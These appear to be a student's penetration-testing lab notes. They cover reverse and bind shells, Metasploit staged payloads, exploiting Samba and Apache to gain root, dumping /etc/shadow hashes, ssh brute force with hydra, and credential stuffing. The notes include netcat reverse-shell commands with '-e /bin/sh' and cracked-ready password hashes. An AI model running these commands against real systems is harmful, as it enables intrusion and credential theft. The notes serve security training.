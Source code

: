 ## Reverse Shells vs Bind Shells
Example attackbox - 192.168.1.1
Example Target - 192.168.1.2
### Reverse Shell
- A victim connects to us.
- It is an attack where we will have remote access to the target system. The netcat will be run in the target and we will listen in our machine.
	- We can use netcat "nc". Example of attack
		- nc 192.168.1.1 "port number" -e /bin/sh - Run on the Target
		- nc -nvlp "port number" - Run on attackbox (My box)

### Bind Shell
- We connect to a victim.
- We will have the same access as the reverse shell but this time we will listen to a port on the target and run the net cat on our machine.
- Most of the time we use this to by pass a firewall. 
	- nc -nvlp "port number" -e /bin/sh - Run on the Target
	- nc 192.168.1.2 "port number" - Run on attackbox (My box)




## Staged vs Non-Staged Payloads
- If you try a payload and it does not work, always try the other type. 
- A payload is **the component of the attack which causes harm to the victim**. Much like the Greek soldiers hiding inside the wooden horse in the tale of the Trojan Horse.
### Non Staged payload
- Sends exploit shellcode all at once
- Large in size and won't always work.
- Example: windows/meterpreter_reverse_tcp
	- having the __ in between means it is a non-staged
### Staged payload
- Sends exploit shellcode in stages
- Can be less stable
- - Example: windows/meterpreter/reverse_tcp
	- having the / in between means it is a staged



## Gaining Root with Metasploit
- We know the version of Samba, we can search for vulnerabilities. 
- Using searchsploit samba 2.2.1a and 2.2
- We can notice how often trans2open appears in the searches.

- On Metasploit!
- search trans2open
- Set the rhost and run. But with no success. 
- We notice that we are using a staged payload. We can search for the options for the payload using "set payload" and press tab twice.
- There is no meterpreter with no staged payloads so we try "set payload linux/x86/shell_reverse_tcp"
- And we gain root access.

## Manual Exploitation
- Insted of using metasploit we will research about the target system possible explotations. 
- We know that it is running Apache httpd 1.3.20 ((Unix) on port 80/443. Searching online "apache httpd 1.3.20 ((unix) exploit" we will get this link back "https://github.com/heltonWernik/OpenLuck".
- This will allow us to dowload and use this exploit and gain root access. 

## Post Exploitation (Brief)
With root access:
- use "hashdump".
- We can try to cat /etc/passwd
	- Notice there are 2 users: John and Harold
- We can now cat /etc/shadow
	- This are the password hashes:
		- john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
		- harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::


## Brute Force Attacks (ssh)
- hydra -l root -p /usr/share/wordlists/metaspoit/unix?passwords.txt ssh://192.168.138.131
- Metaspoit
	- search for ssh
	- use the auxiliary/scanner/ssh/ssh_login

## Credential Stuffing and Password Spraying
- What is credential Stuffing?
	- Injecting breached account credentials in hopes of account takeover
- You can use repeter on burpsuit to test usernames and passwords on a log in page.
	- Using sniper for 1 set of words.
	- Using Pitchfork for 2 sets.